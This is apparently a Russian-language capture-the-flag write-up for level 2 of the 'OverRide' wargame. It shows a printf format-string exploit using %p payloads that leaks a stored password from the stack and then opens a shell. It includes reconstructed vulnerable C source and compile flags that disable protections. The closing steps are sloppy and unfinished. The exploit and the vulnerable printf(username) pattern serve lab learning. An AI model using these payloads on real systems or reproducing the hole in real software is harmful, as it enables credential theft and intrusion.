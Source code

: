 # LEVEL 02

## Команды и ресурсы
gdb

## Уязвимость
printf format string

## Решение
1. Пробуем запустить:
```bash
level02@OverRide:~$ ./level02
===== [ Secure Access System v1.0 ] =====
/***************************************\
| You must login to access this system. |
\**************************************/
--[ Username: tanya
--[ Password: ttttt
*****************************************
tanya does not have access!
level02@OverRide:~$ 

```
- Программа ждет ввода логина и пароля, при неверном вводе выходит.

2. Пробуем посмотреть в отладчике. Полный код дизассемблирования [тут](resources/disas.md)

- В мейне есть три переменных-буфера:
- буфер1  - -0x70(%rbp)  - (username - хранит вводимый пользователем username) 
- буфер2  - -0xa0(%rbp)  - (password - хранит пароль, который считывается из файла /home/users/level03/.pass)
- буфер3  - -0x110(%rbp) - (user_pass - хранит вводимый пользователем пароль)

в случае совпадения 41 символов паролей - программа запускает system("/bin/sh") 

в случае несовпадения выводит на печать username через незащищенный вызов printf(username)
и завершает работу.

3. Попробуем воспользоваться уязвимостью форматной строки и вывести на печать пароль (напечатаем стек и наш буфер с паролем из файла).

Нам нужно определить на какой позиции в аргументах printf (условных) находится наш буфер с паролем из файла
попробуем вывести на печать

посчитаем, насколько отстоит буфер с хранимым паролем от буфера с вводимым паролем
-0xa0 - (-0x110) = 272 - 160 = 112 (112/8 - на 14 аргументов printf)

попробуем вывести на печать первые 10 аргументов printf:
```bash
level02@OverRide:~$ ./level02
===== [ Secure Access System v1.0 ] =====
/***************************************\
| You must login to access this system. |
\**************************************/
--[ Username: aaaaaaaa %p %p %p %p %p %p %p %p %p %p
--[ Password: bbbbbbb
*****************************************
aaaaaaaa 0x7fffffffe500 (nil) 0x62 0x2a2a2a2a2a2a2a2a 0x2a2a2a2a2a2a2a2a 0x7fffffffe6f8 0x1f7ff9a08 0x62626262626262 (nil) (nil) does not have access!

```
- пароль с введенным пользователем буфером (bbbbbbbb - 0x62626262626262) находится на 8 позиции, прибавим 14 = 22. По логике буфер с паролем из файла находится на 22 позиции
Буфер с паролем занимает 41 байт (40 + \n), получается нам нужно вывести на печать 5 аргументов (40 / 8 = 5) начиная с 22

```bash
level02@OverRide:~$ ./level02
===== [ Secure Access System v1.0 ] =====
/***************************************\
| You must login to access this system. |
\**************************************/
--[ Username: %22$p %23$p %24$p %25$p %26$p
--[ Password: a
*****************************************
0x756e505234376848 0x45414a3561733951 0x377a7143574e6758 0x354a35686e475873 0x48336750664b394d does not have access!

```

Теперь нам нужно превратить эту строку из hex в пароль в виде символов не забывая про little endian
Скрипт для дешифровки [тут](resources/decode.py)

```bash
level02@OverRide:~$ ./level02
===== [ Secure Access System v1.0 ] =====
/***************************************\
| You must login to access this system. |
\**************************************/
--[ Username: tanya
--[ Password: Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H
*****************************************
Greetings, tanya!
$ whoami
level03
$ cat /home/users/level03/.pass
Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H

```

## Воссоздадим бинарный файл
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

int main(int argc, char **argv){
    char username[100] = {};
    char password[41] = {};
    char user_pass[100] = {};
    FILE *file = NULL;
    int pass_len = NULL;

    file = fopen("/home/users/level03/.pass", "r");
    if (file == NULL) {
        fwrite( "ERROR: failed to open password file\n", 1, 36, stderr);
        exit(1);
    }

    pass_len = fread(password, 1, 41, file);
    password[strcspn(password, "\n")] = '\0';

    if (pass_len != 41) {
        fwrite("ERROR: failed to read password file\n", 1, 36, stderr);
        fwrite("ERROR: failed to read password file\n", 1, 36, stderr);
        exit(1);
    }
    fclose(file);
    puts("===== [ Secure Access System v1.0 ] =====");
    puts("/***************************************\\");
    puts("| You must login to access this system. |");
    puts("\\**************************************/");
    printf("--[ Username: ");

    fgets(username, 100, stdin);
    username[strcspn(username, "\n")] = '\0';
    printf("--[ Password: ");
    fgets(user_pass, 100, stdin);
    user_pass[strcspn(user_pass, "\n")] = '\0';
    puts("************************************************");

    if (strncmp(password, user_pass, 41) == 0) {
        printf("Greetings, %s!\n", username);
        system("/bin/sh");
        return 0;
    }

    printf(username);
    puts(" does not have access!");
    exit(1);
}
```


## Переносим на виртуальную машину, компилируем, проверяем
1. Копируем на виртуальную машину
``` bash
 scp -P 4242 ~/42/override/level02/source.c level02@192.168.56.129:/tmp/source_level02.c
 ```

2. заходим под level03 на виртуальную машину
```bash
su level03
```

3. Компилируем

```bash
cd /tmp
gcc -fno-stack-protector -z norelro -z execstack source_level02.c -o level02
```
```bash
level02@OverRide:/tmp$ checksec --file level01
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   level01

```

4. Меняем права
```bash
level02@OverRide:/tmp$ chmod u+s level01; chmod +wx; chmod +s; level01;

```
5. Возвращаемся в юзера level02 и Запускаем
```bash
level02@OverRide:/tmp$ exit


```
6. Проверяем уязвимость
```bash

```
